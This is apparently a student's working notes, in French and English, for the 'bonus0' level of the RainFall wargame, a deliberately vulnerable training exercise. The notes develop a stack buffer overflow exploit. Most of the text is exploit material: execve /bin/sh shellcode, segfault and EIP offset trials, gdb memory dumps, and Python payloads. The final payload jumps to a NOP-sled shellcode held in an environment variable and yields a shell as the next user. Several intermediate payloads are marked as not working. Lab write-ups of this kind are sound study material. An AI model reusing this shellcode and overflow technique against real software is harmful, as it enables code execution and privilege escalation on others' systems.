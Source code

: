 Here is our shellcode (size 24)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Payload

0xbffff71c --> address of v3 --> \x1c\xf7\xff\xbf
0xbffff70e --> address of buffer -> \x0e\xf7\xff\xbf
0xbffff74e --> address of buffer maybe wtf lol mdr --> \x4e\xf7\xff\xbf

```bash
(python -c 'print ("A" * 20)'; cat) | ./bonus0
```

````bash
(python -c 'print "A" * 20'; python -c 'print "B" * 19')  | ./bonus0```

```bash
(python -c 'print "A" * 20'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x1c\xf7\xff\xbf"')  | ./bonus0
````

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0 --> 1ere partie shellcode
\x0b\xcd\x80 --> 2eme partie shellcode
'A' \* 13
\x0e\xf7\xff\xbf

```bash
(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"'; python -c 'print "\x0b\xcd\x80" + "A" * 11 + "\x4e\xf7\xff\xbf" + "A"'; cat)  | ./bonus0
```

run < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"'; python -c 'print "\x0b\xcd\x80" + "A" \* 12 + "\x4e\xf7\xff\xbf" + "A"';)

LOG pour find segfault

```bash
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "B" * 17')  | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "B" * 16')  | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB
```

```
Wrong Payload
20 chars de payload

- 16 chars de payload
- overwrite return addresse --> jump vers debut de buffer (start of payload)
+ 16 chars de payload
+ overwrite return addresse --> jump vers debut de buffer (start of payload)
```

input1: 19 A || input2: 1B
--> AAAAAAAAAAAAAAAAAAA B
19 A | 1B

intput1 : 20 A || input2: 1 B
--> AAAAAAAAAAAAAAAAAAAAB B
20 A + 1B | 1B

input1: 20A || input2 : 5 B
--> AAAAAAAAAAAAAAAAAAAABBBBB BBBBB
20 A + 5B | 5B

```
input 1 = AAAAAAAAAAAAAAAAAAAA (20 CHARS)
input 2 = BBBBBBBBBBBBBBBB	(16 CHARS)		OK
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB	(55 chars total)

input 2 = BBBBBBBBBBBBBBBBB	(17 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB	(55 chars total)
```

```bash
(python -c 'print "A" * 20'; python -c 'print "ABCDEFGHIJKL"')  | ./bonus0
```

ABCDEFGHIJKLMNOP

```
segfault
0x	41	33	61	41
	A	3	a	A
```

`offset to segfault at 20 CHARS dans input1 et 9 CHARS in input 2`

```bash
Payload
20 chars de payload (-> input 1)
+ 9 chars de payload (-> input 2)
+ adress to start of payload (address of buffer in main)
+ ballec du reste?
```

```bash
SHELLCODE
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

```buffer
20 chars de
AAAAAAAAAAAAAAAAAAAABBBBBBBBBB BBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBB BBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBB BBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBB BBBBBBBBBBBBBBB
```

---

## NEW PAYLAOD

```bash
input 1 = AAAAAAAAAAAAAAAAAAAA	(20 CHARS)

input 2 = BBBBBBBBBBBBBBBB		(16 CHARS)		OK
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB		(55 chars total)

input 2 = BBBBBBBBBBBBBBBBB		(17 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB		(55 chars total)
eip            0xb7e40042	0xb7e40042

input 2 = BBBBBBBBBBBBBBBBBB	(18 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBB	(57 chars total)
eip            0x00424242	0x00424242

input 2 = BBBBBBBBBBBBBBBBBBB	(19 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBBB	(59 chars total)
eip            0x42424242	0x42424242

input 2 = BBBBBBBBBBCDEFGHIJK	(19 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBCDEFGHIJK BBBBBBBBBBCDEFGHIJK	(59 chars total)
eip            0x4a494847	0x4a494847
4a	49	48	47
J	I	H	G

input 2 = 14 CHARS + EIP (4 chars) + 1 CHAR trash
input 1 = 20 CHARS

BUFFER =
input 1 (20 chars)
+ input 2 ( 19 )
+ espace
+ input 2 (19)

BUFFER =

20 chars unique
+ 14 chars
+ EIP (4 chars)
+ 1 char trash
+ espace
+ 14 chars
+ EIP (4 chars) //celui la overflow
+ 1 char trash

PAYLOAD =
input 1 = 20er char du shellcode
input 2 = 3 characters du shellcode + 11 trash + EIP (jump == 4 chars) + 1 trash

SHELLCODE


PAYLOAD
input 1 = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
input 2 = "\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A"
input 2 =
```

address of start of buffer: `0xbffff706` = `\x06\xf7\xff\xbf`

NE MARCHE PAS
MAIS FONCTIONNE DANS GDB

```bash
(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A")'; cat)  | ./bonus0
```

POUR GDB

```bash
run < <(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A")'; cat)
```

---

NE MARCHE PAS

```bash
(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\xa0\x85\x04\x08" + "A")'; cat)  | ./bonus0
```

main - 4 = 080485a4 - 4 = 080485a0 = \xa0\x85\x04\x08

export EXPLOIT=$(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')

`0xbffff90b` == `\x0b\xf9\xff\xbf`

WITH NEW VALUE

```bash
(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\x0b\xf9\xff\xbf" + "A")'; cat)  | ./bonus0
```

(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 \* "A" + "\x0b\xf9\xff\xbf" + "A")'; cat) | ./bonus0

--------------------------------------------------------------------------------------------------

offset calculated is 9


We will use our env as a buffer we can control during execution  
The env variable will contain our shellcode

```bash
export EXPLOIT=$(python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```

Lets examine our env to find out its address

```bash
(gdb) x/200s environ
0xbffff8c6:	 "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341Qh//shh/bin\211\343\260\v̀"


```
Lets look at the address

```bash
(gdb) x/50x 0xbffff8c6
0xbffff8c6:	0x45	0x58	0x50	0x4c	0x4f	0x49	0x54	0x3d
0xbffff8ce:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8d6:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8de:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8e6:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8ee:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8f6:	0x90	0x90

```
The start of our shellcode is `\x90\x90\90`  
Here we can see those bytes at `0xbffff8ce` == `\xce\xf8\xff\xbf`
Why ? Because we need to skip 8 chars ("EXPLOIT="), so we skip the first 8 bytes

The offset in memory in gdb may be a bit different, that is why we put a lot of NOP instruction (`\x90`)
Lets jump further to jump into the `\x90` : `\xe4\xf8\xff\xbf`

Now in the program we can jump to our env variable with our payload

## Payload

FONCTIONNE
```bash
(python -c 'print ("A" * 20)'; python -c 'print ("A" * 9 + "\xe4\xf8\xff\xbf" + "A" * 7)'; cat)  | ./bonus0
```

```bash
bonus0@RainFall:~$ (python -c 'print ("A" * 20)'; python -c 'print ("A" * 9 + "\xe4\xf8\xff\xbf" + "A" * 7)'; cat)  | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
whoami
bonus1
```
